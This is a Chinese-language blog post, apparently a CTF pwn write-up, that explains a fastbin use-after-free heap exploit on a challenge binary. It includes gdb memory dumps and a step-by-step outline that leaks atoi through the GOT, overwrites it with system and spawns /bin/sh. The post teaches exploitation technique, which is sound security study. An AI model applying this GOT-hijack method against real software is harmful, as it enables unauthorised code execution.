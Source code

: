 ```yaml
---
title: 堆溢出之fastbin
date: 2017-08-23 13:59:56
tags:
- 堆溢出
- pwn
- heap
categories:
- [pwn]
---
```


简单的fastbin堆溢出漏洞利用。

<!-- more -->

# 简介

关于Linux下堆管理，需要研读参考文献[1](http://www.freebuf.com/articles/system/104144.html), [2](http://www.freebuf.com/articles/security-management/105285.html)。

需要指出的是，fastbin是个单向链表，仅仅使用fd指针，用LIFO算法实现chuck的链接。fastbins数组中的每个fastbin元素均指向了链表尾部的chunk，而尾节点通过fd指向前一个节点。

# 一个栗子

关于fastbin溢出的例子并不多，下面这道题是很好的学习样例。

这里面观察`create`创建了0x24大小的堆块，并赋值给全局变量`ptr`，在`del`中释放掉`ptr`但是并未置空。
`free`后的chunk被fastbins回收，但是`ptr`指针任然指向了它，我们可以将我们想要的地址写入此块中，再`malloc`两次，获得的`ptr`指针就指向了我们的目标地址。进而可以做目标函数的GOT表地址覆盖。

这里有点困惑的是，在将堆内存赋值给`ptr`后，`ptr`指向的地址是它本身。这样我们可以写入任意要覆盖的地址。详细过程见下面。

free 后
```
-peda$ p main_arena.fastbinsY 
$1 = {0x0, 0xed9000, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
```

第一次edit后
```
gdb-peda$ x/8xg 0xed9000
0xed9000:	0x0000000000000000	0x0000000000000031
0xed9010:	0x0000000000602098	0x3131313131313131
0xed9020:	0x3131313131313131	0x0031313131313131
0xed9030:	0x0000000000000457	0x0000000000020fd1
```
第一次malloc
```
gdb-peda$ p main_arena.fastbinsY 
$2 = {0x0, 0x602098 <completed>, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

gdb-peda$ x/8xg 0x602098
0x602098 <completed.6962>:	0x0000000000000000	0x0000000000000030
0x6020a8 <info+8>:	0x0000000000ed9010	0x0000000000000000
0x6020b8:	0x0000000000000000	0x0000000000000000
0x6020c8:	0x0000000000000000	0x0000000000000000
```

第二次malloc
```
gdb-peda$ p main_arena.fastbinsY 
$3 = {0x0, 0x1c6d010, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}

b-peda$ x/8xg 0x602098
0x602098 <completed.6962>:	0x0000000000000000	0x0000000000000031
0x6020a8 <info+8>:	0x0000000000ed9010	0x0000000000000000
0x6020b8:	0x0000000000000000	0x0000000000000000
0x6020c8:	0x0000000000000000	0x0000000000000000
```
但是执行这条语句
```
   0x400955 <create+4>:	mov    edi,0x24
   0x40095a <create+9>:	call   0x400700 <malloc@plt>
===>   0x40095f <create+14>:	
    mov    QWORD PTR [rip+0x201742],rax        # 0x6020a8 <info+8>
```
也就是
```
  result = malloc(0x24uLL);
  ptr = result;
```
 得到的ptr附近内存分布为
```
 gdb-peda$ x/8xg 0x602098
0x602098 <completed.6962>:	0x0000000000000000	0x0000000000000031
===> 0x6020a8 <info+8>:	0x00000000006020a8	0x0000000000000000
0x6020b8:	0x0000000000000000	0x0000000000000000
0x6020c8:	0x0000000000000000	0x0000000000000000
```
也就是说ptr指向了ptr自己。


我没弄懂的地方在于，*ptr*是指针，它保存的是地址，所以读入数据后，保存的地址是`0x00000000006020a8`，不是将读入的内容覆盖在`0x6020a8`上。

## 流程

1. malloc一个堆块
2. free掉该堆
3. 将`ptr_addr-16`(64位程序，prev_size和size各占8位)写入上述堆
4. malloc使fasbinsY指向`ptr_addr-16`
5. malloc使`ptr`指向bss段，也就是它自己。
6. 将atoi的GOT表地址写入ptr中。
7. 通过printf函数，泄露出atoi的实际内存地址。
8. 根据libc中atoi与system的相对偏移量，计算出system在内存中的实际地址。
9. 将system内存地址通过`ptr`写入atoi的内存地址。
10. 再次执行程序，在运行到`atoi`函数时，输入`/bin/sh`。

文件的下载地址[fastIsfast](../堆溢出之fastbin/fastIsfast)，[libc-2.23-64.so](../堆溢出之fastbin/libc-2.23-64.so)。


# 参考文章
[1] [Linux堆内存管理深入分析（上）](http://www.freebuf.com/articles/system/104144.html)
[2] [Linux堆内存管理深入分析（下）](http://www.freebuf.com/articles/security-management/105285.html)
[3] [XCTF Day 11](https://www.xctf.org.cn/library/details/66bf2f67bdaeb06136a3624e632a548441fb4b38/)
